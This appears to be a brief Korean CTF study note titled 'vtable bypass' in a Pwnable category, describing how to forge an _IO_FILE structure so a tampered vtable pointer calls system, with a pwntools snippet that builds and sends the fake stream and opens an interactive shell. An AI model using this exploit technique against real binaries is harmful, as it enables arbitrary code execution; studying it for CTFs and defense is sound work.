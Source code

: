 ```yaml
---
layout: post
type: note
title: vtable bypass
alias: Pwnable
---
```


fake _IO_FILE Structure를 만들어 vtable의 조작된 함수 포인터가 실행되게 만들면 된다.

```python
stream = p64(0)*17
stream += p64(NULLPOINTER) # _IO_lock_t
stream += p64(0)*9
stream += p64(vtable)
stream += p64(system)*20

p.sendline(stream)
p.interactive()
```

